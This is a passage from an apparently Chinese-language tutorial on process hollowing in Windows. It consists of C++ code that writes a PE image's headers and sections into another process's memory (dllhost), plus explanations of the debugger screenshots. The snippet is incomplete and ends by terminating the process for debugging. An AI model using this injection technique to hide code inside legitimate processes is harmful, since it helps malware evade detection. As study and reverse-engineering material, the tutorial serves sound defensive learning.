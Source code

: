      // 获取nt头  
      PIMAGE_NT_HEADERS nt = (PIMAGE_NT_HEADERS)(image + dos->e_lfanew);  
      
      // 获取线程上下文  
      CONTEXT ctx;  
      ctx.ContextFlags = CONTEXT_FULL;  
      GetThreadContext(pi.hThread, &ctx);  
      
      // 获取模块基质  
      ULONG_PTR base;  
      ReadProcessMemory(pi.hProcess, (PVOID)(ctx.Ebx + (sizeof(SIZE_T) * 2)), &base, sizeof(ULONG_PTR), NULL);  
      
      // 在默认基质下申请内存并且 设置属性为读写执行  
      LPVOID mem = VirtualAllocEx(pi.hProcess, (PVOID)(nt->OptionalHeader.ImageBase), nt->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);  
      if (!mem)  
      {  
        TerminateProcess(pi.hProcess, 1);  
        return 1;  
      }  
      
      // 替换PE头  
      WriteProcessMemory(pi.hProcess, mem, image, nt->OptionalHeader.SizeOfHeaders, NULL);  
      
      for (int i = 0; i < nt->FileHeader.NumberOfSections; i++)  
      {  
        // 获取节表 写入节表  
        PIMAGE_SECTION_HEADER sec = (PIMAGE_SECTION_HEADER)((LPBYTE)image + dos->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER)));  
        WriteProcessMemory(pi.hProcess, (PVOID)((LPBYTE)mem + sec->VirtualAddress), (PVOID)((LPBYTE)image + sec->PointerToRawData), sec->SizeOfRawData, NULL);  
      }  
        
      // 结束进程(调试的时候方便一下 可以不写)  
      TerminateProcess(pi.hProcess, -1);  
      std::cout << "process exit!!!!!!!" << std::endl;  
      std::cin.get();  
      return 0;  
    }

![](https://gitee.com/fuli009/images/raw/master/public/20221112175430.png)

    GetThreadContext是什么意思呢?获取线程上下文，我们这时候用调试器附加一下dllhost看下我们获取的是什么东西。主要获取的就是目前的寄存器的值。后续我们需要读写这个值,从而达到执行我们自己的PE信息。

![](https://gitee.com/fuli009/images/raw/master/public/20221112175432.png)

![](https://gitee.com/fuli009/images/raw/master/public/20221112175435.png)

    开始替换PE头  我们可以注意一下写入了什么。

![](https://gitee.com/fuli009/images/raw/master/public/20221112175437.png)

![](https://gitee.com/fuli009/images/raw/master/public/20221112175440.png)
